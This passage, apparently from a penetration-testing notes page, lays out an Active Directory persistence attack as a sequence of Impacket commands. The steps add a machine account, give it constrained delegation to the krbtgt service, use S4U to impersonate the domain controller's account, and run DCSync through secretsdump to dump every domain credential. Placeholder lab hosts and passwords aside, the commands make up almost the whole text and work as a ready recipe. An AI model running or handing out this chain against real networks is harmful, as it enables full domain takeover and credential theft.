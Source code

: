 - [https://gist.github.com/snovvcrash/c8f8fa7721c40f4cca0c46c196066a41](https://gist.github.com/snovvcrash/c8f8fa7721c40f4cca0c46c196066a41)

```bash
# create a new service account (or abuse an existing one)
$ addcomputer.py -computer-name Persist1 -computer-pass 'Passw0rd1!' -dc-ip 192.168.1.11 megacorp.local/lowpriv:'Passw0rd2!'
# set UAC to be' WORKSTATION_TRUST_ACCOUNT | TRUSTED_TO_AUTH_FOR_DELEGATION' and set the krbtgt SPN for delegation
$ python3 setCD.py megacorp.local/administrator:'Passw0rd3!' -dc-ip 192.168.1.11 -target 'Persist1$' -spn krbtgt/MEGACORP
# request TGS via S4U (will act as a TGT of the impersonated user)
$ getST.py -spn krbtgt/MEGACORP megacorp.local/'Persist1$:Passw0rd1!' -dc-ip 192.168.1.11 -impersonate 'DC01$'
# fire DCSync
$ KRB5CCNAME=`pwd`/'DC01$.ccache' secretsdump.py DC01.megacorp.local -dc-ip 192.168.1.11 -k -no-pass -just-dc
```
{% endtab %}
{% endtabs %}
